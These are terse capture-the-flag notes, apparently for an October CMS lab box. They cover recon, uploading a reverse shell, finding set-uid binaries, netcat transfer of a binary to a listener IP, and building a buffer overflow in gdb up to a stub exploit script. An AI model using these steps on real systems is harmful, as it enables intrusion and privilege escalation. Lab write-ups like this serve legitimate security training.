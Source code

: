 nmap -sV -sC -oA nmap &lt;host&gt;

searchsploit october

search vulnerabilities based on the version of the system

* is it outdated?
* what is the version that has vulnerabilities
* download 2 versions of the application \(cms\)

* find the files that have been updated

* compare their hashes

* try to access the README.md to see the changelogs

* remove the unnecessary files

exploit

* upload the reverse-shell script
* when accessed the shell

  * find / -perm -4000 2&gt;/dev/null \(search set-uid files\)
  * 

* get files from the remote server

  * nc -l -p 999 &gt; ovrflw \(local\)
  * nc -w 5 10.10.12.194  999 &lt; /usr/local/bin/ovrflw \(remote\)
  * check for md5

* python -m SimpleHTTPServer

* Run ubuntu with the same version of the target

  * wget 172.16.10.105:8000/ovrflw
  * mv ovrflw Desktop
  * chmod +x ovrflw
  * ``./ovrflw `python -c 'print "A"*200'` #this will trigger a segmentation fault because of buffer overflow``

* `cat ~/.gdbinit` \(this will check if you have `source ~/peda/peda.py`\)

* gdb ./ovrflw

* b main \(breakpoint on main\)

* r \(run\)

* ```r``python -c 'print "A"\*200'\`\`\` \(buffer overflow\)

* c \(continue\)

* you will see an error after `c`

* `python -c 'print "\x41"' (will print A)`

* checksec

* nc -lvnp 888 \(port set on the reverse shell script\)

* stty raw -echo

* nc -lvnp 888

* cd /usr/local/bin

* ldd ovrflw \|grep libc

Check if the ASLR is enabled in the HOST \(VM\)

* ldd ovrflw \|grep libc

Disable ASLR

* `echo 0 > /proc/sys/kernel/randomize(underscore)va_space #root`
* `ldd ovrflw |grep libc #check if the hex is not changing`

Identify where the buffer overflow occurs

* locate pattern\_

* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -h #shows usage`

* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200 #generate unique strings/ pattern that doesn't repeat`

* go to ubuntu

* gdb ./ovrflw

* r &lt;paste generated unique patterns/strings&gt;

* copy the mem address

* go back to kali box

* use pattern\_offset.rb

* pattern\_offset.rb -q &lt;mem address without 0x&gt;

* will output p \[\*\] Exact match at offset 112

  * this means at exactly 112 bytes, you can override EIP here

* go to ubuntu to write the buffer overflow script

**--- bf.py ---**

```
import struct

buf = "A" * 112
buf += struct.pack("<I",0xd3adc0d3)

print buf
```



